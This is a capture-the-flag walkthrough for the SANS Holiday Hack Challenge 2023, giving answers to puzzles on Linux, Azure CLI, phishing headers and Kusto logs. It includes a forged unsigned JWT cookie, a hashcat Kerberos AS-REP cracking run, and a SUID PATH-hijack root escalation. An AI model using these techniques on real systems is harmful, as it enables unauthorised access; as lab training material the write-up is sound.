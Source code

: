 # SANS Holiday Hack Challenge 2023

---

Objective: Holiday Hack Orientation

To start you need to maneuver your boat and dock at Christmas Island: Oritentation

![Picture of boat at sea heading towards Orientation Island](/docs/assets/images/Dock.png)

Task 1: First Terminal Challenge

This is just to get your feet wet, simply enter *answer* to complete the challenge.

![](/docs/assets/images/Orientation.png)

---

Objective: Snowball Fight

You could play with another player to fight Santa and win, but that defeats the whole purpose of hacking...

If you look at the source code of the iframe, you will find a singlePlayer variable. You will see that if it is set to "true", a computer player is added to the game allowing you to play solo. 

![](/docs/assets/images/SinglePlayer.png)

Once you load into a private room, you can view the frame info to find the URL the frame is loading from. You will see the singleplayer variable set to false. If you copy the URL and update the <iframe> tag in Inspect with that URL and setting that variable to "true" it will load a single player game. 

Once you defeat Santa, you achieve GLORY!

![](/docs/assets/images/VICTORY.png)

However... why stop there?! You can also use the console once the game is started to alter other variables such as snowballDmg, playersVelocity, santaThrowDelay and more. There's many ways to make this challenge more fun. Pelting elves with no damage taken, who doesn't enjoy that?!

![](/docs/assets/images/Variables.png)

---

Objective: Linux 101

Task 1: Perform a directory listing of your home directory to find a troll and retrieve a present!

Answer: *ls*

Task 2: Now find the troll inside the troll.

Answer: *cat troll 19315479765589239*

Task 3: Great, now remove the troll in your home directory.

Answer: *rm troll 19315479765589239*

Task 4: Print the present working directory using a command.

Answer: *pwd*

Task 5: Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!

Use ls -la to reveal hidden files

Answer: *cat .troll_5074624024543078*

Task 6: Excellent, now find the troll in your command history.

Answer: *history*

Task 7: Find the troll in your environment variables.

Answer: *env*

Task 8: Next, head into the workshop.

Answer: *cd workshop*

Task 9: A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.

Answer: *grep -ri "troll"*

Task 10: 

chmod +x present engine to make the file executable

Answer: *./present engine*

Task 11: Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.

Change to the proper directory using cd

Answer: *mv blown fuse0 fuse0*

Task 12:  Now, make a symbolic link (symlink) named fuse1 that points to fuse0

Answer: *ln -s fuse0 fuse1*

Task 13: Make a copy of fuse1 named fuse2.

Answer: *cp fuse1 fuse2*

Task 14: We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2

Answer: *echo "TROLL_REPELLENT" > fuse2*

Task 15: Find the troll somewhere in /opt/troll_den.

Answer: *find /opt/troll_den/ -iname "troll*"*

 Task 16: Find the file somewhere in /opt/troll_den that is owned by the user troll.

Answer: *find /opt/troll_den/ -user "troll"*

Task 17: Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.

Answer: *find /opt/troll_den/ -size +108k -size -110k*

Task 18: List running processes to find another troll

Answer: *ps aux*

Task 19: The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.

Answer: *netstat -l*

Task 20: The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.

Answer: *curl 0.0.0.0:54321*

Task 21: Your final task is to stop the 14516_troll process to collect the remaining presents.

Answer: *kill 12771*

---

Objective: Reportinator

---

Objective: Azure 101

Task 1: You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less

Answer: *az help | less*

Task 2: Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )

Answer: *az account show | less*

![]()

Task 3: Excellent! Now get a list of resource groups in Azure.
For more information:
https://learn.microsoft.com/en-us/cli/azure/group?view=azure-cli-latest

Answer: *az group list*

![](/docs/assets/images/azgroup.png)

Task 4: Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.

Answer: *az functionapp list -g "northpole-rg1"*

You could've also used northpole-rg2 here. This also revealed an interesting URL: https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

![](/docs/assets/images/azfunctionapp.png)

Task 5: Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest

Answer: *az vm list -g "northpole-rg2"*

![](/docs/assets/images/azvms.png)

Task 6: Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke

Answer: az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts "ls"

![](/docs/assets/images/azls.png)

---

Objective: Elf Hunt

After reading about JSON Web Tokens (JWTs), I learned about a flaw to force the server to accept a token with no signature present. I found a cookie that appeared to be the JWT for Elf Hunt called "ElfHunt_JWT". The JWT was already flawed since the "alg" parameter was set to none, which made my job easier. I simply had to decode the cookie using CyberChef. It took a few tries messing around with the speed until the elves were just fast enough...

Original Cookie: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwMH0. 

Decoded Original: {"alg":"none","typ":"JWT"}>{"speed":-500}>

Answer: I ended up finding that -50 was a good speed. I replaced the cookie in my session with my new base64 encoded speed variable. The full cookie value became *eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwfT4.*

GLORY:

![](/docs/assets/images/elfhunt.png)

---

Objective: Certificate SSHenanigans

Domain: **ssh-server-vm.santaworkshopgeeseislands.org** 

Account: **monitor**

Goal: **access TODO list**

---

Objective: Faster Lock Combination

When applying tension to the shackle and turning the dial clockwise, the number that the lock repeatedly hangs on is the sticky number. 

Sticky Number: 20

When applying heavy tension to the shackle and turning the lock counter clockwise, the numbers we are looking for will sit between two half numbers and will be between 0-11

Guess Number 1: 0

Guess Number 2: 3

First Digit: Sticky Number + 5 = ***25***

Third Digit: 13  OR 33, 13 feels more loose when applying tension to the shackle so we can eliminate 33 as an option

Third Digit Process: 

First Digit/4 = 6 with remainder of 1

Guess Numbers: 0 & 3

0    10    20   30

3    13    23    33

13/4 = 4 with remainder of 1 & 33/4 = 8 with remainder of 1

Second Digit Process:

First Row Below: Remainder + 2  = 3

Add 8 to it 4 times, exceeding 39 resets to 0

Second Row Below: remainder + 2 + 4 = 7

Add 8 to it 4 times, exceeding 39 resets to 0

3    ~~11~~    19    27    35

7    ~~15~~     23    31    39

The second and third digit on the lock cannot be within 2 digits of eachother, we can eliminate 15 & 17 from our second digit guesses. 

After trying the 8 options, our true combination is: 25, 39, 13!

If you want to "hack" the challenge instead, you can look at the javascript variables in the iframe to reveal the combination for your session. The variable that holds the combination is: lock_numbers

![](/docs/assets/images/lock.png)You can also edit the lock combination that the game is looking for if you'd like. This just makes it faster to solve the combo :D 

![](/docs/assets/images/editlock.png)

---

Objective: Phish Detection Agency

Valid SPF: 

| Domain           | Type | Value                               |
| ---------------- | ---- | ----------------------------------- |
| geeseislands.com | TXT  | v=spf1 a:mail.geeseislands.com -all |

Valid DKIM:

| Domain           | Type | Value                                                                                                                                                                                                                                  |
| ---------------- | ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DKIM1;t=s;p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDjtqsLqwecFGF7AmP+Siln86O1v9NOKJw4ZsEHDV5fo0Vjj0qNPyyARKSkDmnIKjnzLGUUQO31Fr+vdZU61IaI9/ZD39WJKaAeX96uQ65mRQqqPVYxPLN5OvuFRmIHJ/TgOkD6z5/7VM7Zs1kw5Qnl04FmOLwWd00D+uNZnj8TCwIDAQAB |

Valid DMARC:

| Domain           | Type | Value                                                                  |
| ---------------- | ---- | ---------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DMARC1; p=reject; pct=100; rua=mailto:dmarc-reports@geeseislands.com |

In this challenge we had to weed through all the emails in the Inbox along with those that were already in the Phishing folder to determine if ChatNPT properly assessed the emails. The key piecees to look at in the email headers displayed was:

Return-Path - if the return path was not for emailaddress@geeseislands.com the email should be marked as malicious, as all mail is expected to be from that domain in this challenge

DMARC - if this value is set to "Fail", you can assume phishing in this challenge

DKIM-Signature - if the domain value (d=) in the signature is not geeseislands.com, you can assume it is a phishing email OR if this is just showing "Invalid"

Recieved - If the received field is from a different domain than the expected sender of geeseislands.com, you can assume it is a phishing email

Phish email example 1:

![](/docs/assets/images/phish1.png)

Phish email example 2:

![](/docs/assets/images/phish2.png)

Valid email example 1:

![](/docs/assets/images/valid1.png)

GLORY:

![](/docs/assets/images/acedetect.png)

---

Objective: Na'an

If you cover both the numerical low (0) and high (9) and use NaN as one of the options, the other numbers you place do not matter. The evaluation will fail in your favor. As long as you cover the extremes, NaN will be seen as winner for both min and max due to the python evaluation error. 

GLORY:

![](/docs/assets/images/nan.png)

---

Operation: Kusto Detective

Onboarding: How many craftperson elves are using laptops?

![](/docs/assets/images/kd1.png)

Answer: *25*

Case 1: Welcome to Operation Giftwrap: Defending the Geese Island network

Question 1: What is the email address of the employee who received this phishing email?

![](/docs/assets/images/kd2.png)

Answer: *alabaster_snowball@santaworkshopgeeseislands.org*

Question 2: What is the email address that was used to send this spear phishing email?

![](/docs/assets/images/kd3.png)

Answer: *cwombley@gmail.com*

Question 3: What was the subject line used in the spear phishing email?

![](/docs/assets/images/kd4.png)

Answer: *[EXTERNAL] Invoice foir reindeer food past due*

Case 2: Someone got phished! Let's dig deeper on the victim...

Question 1: What is the role of our victim in the organization?

![](/docs/assets/images/kd5.png)

Answer: *Head Elf*

Question 2: What is the hostname of the victim's machine?

![](/docs/assets/images/kd6.png)

Answer: *Y1US-DESKTOP*

Question 3: What is the source IP linked to the victim?

![](/docs/assets/images/kd7.png)

Answer: *10.10.0.4*

Case 3: That's not good. What happened next?

Question 1: What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

![](/docs/assets/images/kd8.png)

Answer: *2023-12-02T10:12:42Z*

Question 2: What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

![](/docs/assets/images/kd9.png)

Answer: *giftwrap.exe*

Case 4: A compromised host! Time for a deep dive.

Question 1: The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

![](/docs/assets/images/kd10.png)

Answer: *113.37.9.17*

Question 2: What is the timestamp when the attackers enumerated network shares on the machine?

![](/docs/assets/images/kd11.png)

Answer: *2023-12-02 16:51:44.0000000*

Question 3: What was the hostname of the system the attacker moved laterally to?

![](/docs/assets/images/kd12.png)

Answer: *NorthPolefileshare*

Case 5: A hidden message

Question 1: When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

![](/docs/assets/images/kd13.png)

Answer: *2023-12-24 16:07:47.0000000*

Question 2: What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

We can check out the first encoded powershell command after the attacker accessed the fileshare.

![](/docs/assets/images/kd14.png)

After base64 decoding, we can see that this is also reversed. We can use the reverse() command to assist here and reveal the answer.

![](/docs/assets/images/kd15.png)

Answer: *NaughtyNiceList.txt*

Question 3: The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

We can review the next powershell command after the file was copied. 

![](/docs/assets/images/kd16.png)

After base64 decoding, we can see that this command is also encoded in decimal. We need to convert this to ASCII for it to be easily legible.

![](/docs/assets/images/kd17.png)

I used: [charcode encoder-decoder](https://codepen.io/HerbertAnchovy/pen/XLzdYr) to decode the char decimal into ASCII, which revealed our answer.

![](/docs/assets/images/kd18.png)

Answer: *giftbox.com*

Case 6: The final step!

Question 1: What is the name of the executable the attackers used in the final malicious command?

![](/docs/assets/images/kd20.png)

Answer: *downwithsanta.exe*

Question 2: What was the command line flag used alongside this executable?

We can use the same decoded powershell to find the answer for this question.

![](/docs/assets/images/kd20.png)

Answer: *--wipeall*

HHC23 Badge Answer

After completing all the cases, you are presented with one final encoded command: 

```javascript
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```

![](/docs/assets/images/kd21.png)

We can put 

```javascript
Beware the Cube that Wombles
```

into our badge on HHC23 to achieve GLORY!

---

Objective: Game Cartridges: Vol 1

For this game, the goal is to move pixels of the QR code back to their correct place. There are 7 pixels out of place. As you send music notes through misplaced pixels they'll flash, make music, and a flashing square will appear where it shoud go. You simply push your character against the block to move it, you cannot pull a block or push.

Known controls:

- arrows keys to move around

- (e) = a on the gameboy

- (r) = b on the gameboy, for this game it shoots out the music notes

If you look in the js/script.js file, you can find some additional controls that are unlisted.

```javascript
  bindKeys() {
    this.keyFuncs = {
      Backspace: this.keyRewind.bind(this),
      " ": this.keyPause.bind(this),
      "[": this.keyPrevPalette.bind(this),
      "]": this.keyNextPalette.bind(this),
    };
```

In the order shown, these allow you to:

- Rewind the game, if you push a block to the wrong place simply hold Backspace and it will rewind time!

- "Space", if you push spacebar it will pause the game

- Return to the previous color palette for the game

- Proceed to the next color palette for the game

Once all pixels are in their correct location (Be careful with the last one! You need to travel some distance to get it to its proper home!) the game will reveal the full QR code. 

![](/docs/assets/images/gcv1.png)

This QR code is linked to 

```javascript
8bitelf.com
```

Visiting the website reveals the flag to plug into your badge. To achieve glory enter the below into your bade

```javascript
santaconfusedgivingplanetsqrcode
```

---

Objective: Hashcat

Instructions:

```
In a realm of bytes and digital cheer,  
The festive season brings a challenge near.  
Santa's code has twists that may enthrall,  
It's up to you to decode them all.

Hidden deep in the snow is a kerberos token,  
Its type and form, in whispers, spoken.  
From reindeers' leaps to the elfish toast,  
Might the secret be in an ASREP roast?

`hashcat`, your reindeer, so spry and true,  
Will leap through hashes, bringing answers to you.  
But heed this advice to temper your pace,  
`-w 1 -u 1 --kernel-accel 1 --kernel-loops 1`, just in case.

For within this quest, speed isn't the key,  
Patience and thought will set the answers free.  
So include these flags, let your command be slow,  
And watch as the right solutions begin to show.

For hints on the hash, when you feel quite adrift,  
This festive link, your spirits, will lift:  
https://hashcat.net/wiki/doku.php?id=example_hashes

And when in doubt of `hashcat`'s might,  
The CLI docs will guide you right:  
https://hashcat.net/wiki/doku.php?id=hashcat

Once you've cracked it, with joy and glee so raw,  
Run /bin/runtoanswer, without a flaw.  
Submit the password for Alabaster Snowball,  
Only then can you claim the prize, the best of all.

So light up your terminal, with commands so grand,  
Crack the code, with `hashcat` in hand!  
Merry Cracking to each, by the pixelated moon's light,  
May your hashes be merry, and your codes so right!

* Determine the hash type in hash.txt and perform a wordlist cracking attempt to find which password is correct and submit it to /bin/runtoanswer .*
```

Hash.txt contents:

```bash
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966
```

Grep through the hashcat manual to find the proper hashmode for the hash at hand

```bash
elf@d2bdc40ea53d:~$ hashcat --help | grep -i "kerberos"
   7500 | Kerberos 5 AS-REQ Pre-Auth etype 23              | Network Protocols
  13100 | Kerberos 5 TGS-REP etype 23                      | Network Protocols
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
```

We can use our handy poem to determine we need mode to handle *ASREP* or we can leverage the output of the hash.txt file to see we need a mode that can handle Kerberos 5 ASREP, aka 18200.

Hashcat command:

```bash
hashcat -m 18200 hash.txt password_list.txt -w 1 -u 1 --kernel-accel 1 --kernel-loops 1 -o password.txt --force
```

Hashcat output:

```bash
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU @ 2.80GHz, 8192/30063 MB allocatable, 8MCU

Hashes: 1 digests; 1 unique digests, 1 uniue salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=16 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.d7bc3268.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: password_list.txt
* Passwords.: 144
* Bytes.....: 2776
* Keyspace..: 144
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  


Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2...dd1966
Time.Started.....: Sat Dec  9 00:59:53 2023 (0 secs)
Time.Estimated...: Sat Dec  9 00:59:53 2023 (0 secs)
Guess.Base.......: File (password_list.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      817 H/s (0.75ms) @ Accel:1 Loops:1 Thr:64 Vec:16
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 144/144 (100.00%)
Rejected.........: 0/144 (0.00%)
Restore.Point....: 0/144 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-0
Candidates.#1....: 1LuvCandyC4n3s!2022 -> iLuvC4ndyC4n3s!23!

Started: Sat Dec  9 00:59:34 2023
Stopped: Sat Dec  9 00:59:54 2023
```

Checking the contents of password.txt where we had hashcat set to output our cracked password...

```bash
elf@f1f72d836708:~$ cat password.txt 
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966:IluvC4ndyC4nes!
```

Running /bin/runtoanswer and inputting our cracked password

```bash
elf@f1f72d836708:~$ /bin/runtoanswer 
What is the password for the hash in /home/elf/hash.txt ?

> IluvC4ndyC4nes!
Your answer: IluvC4ndyC4nes!

Checking....
Your answer is correct!
```

---

Objective: Linux PrivEsc

Instructions:

```bash
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Find command for files with the SUID bit set

```bash
find / -perm -u=s -type f 2>/dev/null 
```

Results: 

```bash
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

Why do I care about the SUID bit? 

A program that has the SUID (set user ID) bit set will run in the context of the user that owns that file. This can be very dangerous if set for any binaries that can alter or overwrite files. In addition, if it is set for a binary that calls out to another binary using a non-explicit path, we can create a malicious file where it is trying to reach out to elevate our permissions. 

Strings on the /bin/simplecopy to see if we can identify any files/binaries it may be calling out to

```bash
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
elf@6043897b7dfe:~$ strings /bin/simplecopy | less
bash: less: command not found
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

Within our strings results, it looks like simplecopy is calling out to "cp" to leverage it's file copy function. As stated earlier, calling out a binary without an explicit path can be dangerous...let's see what we can do.

Let's check out where the OS thinks cp lives

```bash
elf@6043897b7dfe:~$ which cp
/usr/bin/cp
```

The OS believes that it should look in /usr/bin when it is asked to run "cp". Well, that's because of the environmental variable PATH. The OS looks at the PATH variable to determine where it should look for "cp" in our case. We can look at all PATH variables and see that /usr/bin is present.

```bash
elf@6043897b7dfe:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let's see if we can create a malicious executable called "cp" and change the PATH variable for the OS to find our new "cp" when running simplecopy

```bash
elf@6043897b7dfe:/tmp$ echo "/bin/bash" > cp 
elf@6043897b7dfe:/tmp$ chmod +x cp 
elf@6043897b7dfe:/tmp$ cat cp
/bin/bash
```

We created a new file called "cp" in /tmp that will launch a bash session and made it executable. If we can get simplecopy to run this, it will run with the root UID and give us root permissions. 

Let's alter our environmental variable PATH. We can set it so it will look through the /tmp directory before /usr/bin, so it will see our new "cp" file first!

```bash
elf@6043897b7dfe:/tmp$ which cp
/usr/bin/cp
elf@6043897b7dfe:/tmp$ export PATH=/tmp:$PATH
elf@6043897b7dfe:/tmp$ which cp
/tmp/cp
```

Now, let's execute simplecopy and copy any file. It doesn't matter what, we just need the binary to execute.

```bash
elf@6043897b7dfe:/tmp$ /bin/simplecopy /home/elf/HELP /tmp 
root@6043897b7dfe:/tmp# 
```

And boom! We are root! 

```bash
root@6043897b7dfe:/tmp# whoami
root
```

Now let's move into the /root directory as the original instructions told us and run the binary in there. It looks like it wants to know who delivers christmas presents.

```bash
root@6043897b7dfe:/root# cd /tmp
root@6043897b7dfe:/tmp# cd /root
root@6043897b7dfe:/root# ls
runmetoanswer
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

Let's see if there is a file somewhere that is holding the answer key for us. We can use grep to recursively search the system for our prompt.

```bash
root@6043897b7dfe:/root# grep -inr "Who delivers christmas presents" / 2>/dev/null
/etc/runtoanswer.yaml:12:  Who delivers Christmas presents?
```

Bingo! /etc/runtoanswer.yaml seems to have our question in it, let's check it out further.

```bash
root@6043897b7dfe:/root# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
exit_on_completion: false
```

It appears our answer is "santa". Let's give it a try. 

```bash
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

GLORY!

---

Objective: Luggage Lock

Not much skill or technique here... just apply the right amount of pressure until all wheels lock into a position, then apply full pressure to the lock and watch the zipper pop open!

![](/docs/assets/images/ll.png)

---

Objective: Game Cartidges: Vol 2

The hint for this one is very useful.

```bash
Gameboy 2
From: Tinsel Upatree
Objective: Game Cartridges: Vol 2

1) This feels the same, but different! 2) If it feels like you are going crazy, you probably are! Or maybe, just maybe, you've not yet figured out where the hidden ROM is hiding. 3) I think I may need to get a DIFFerent perspective. 4) I wonder if someone can give me a few pointers to swap.
```

For this objective I used:

- BeyondCompare to view the hex data of the game files

- mGBA as my GameBoy emulator

- Ghidra to view the functions (not needed)

When we try to play the game in the browser, we can see that are being blocked to continue through the path by T-Wiz. We need to find a way to edit the game to allow us access to the other side. 

To find the location that the iframe is pulling the game frame, view your network traffic when you load the game. After you do this a few times, you'll find there appears to be two different versions that can load. 

game0.gb

![](/docs/assets/images/gcv21.png)

game1.gb

![](/docs/assets/images/gcv22.png)

By visiting those domains, I can download a local copy of the GameBoy ROM files. Per the hint, we should take a look at the DIFFerences between the two versions. I used BeyondCompare to do this.

![](/docs/assets/images/gcv23.png)

Let's try changing some of the differences and loading the changed ROM into our emulator to see what happens. 

Game0 hex -> Game1 hex  - change in game

Successful Change 1:

0x02 -> 0x01 - After talking to T-Wiz you are moved to the top of the screen instead of down, we can change this in game1 and be able to get through T-Wizz

After T-Wizz telling me I cannot pass, I walk down to the bottom half of the game now.

![](/docs/assets/images/gcv24.png)

Successful Change 2:

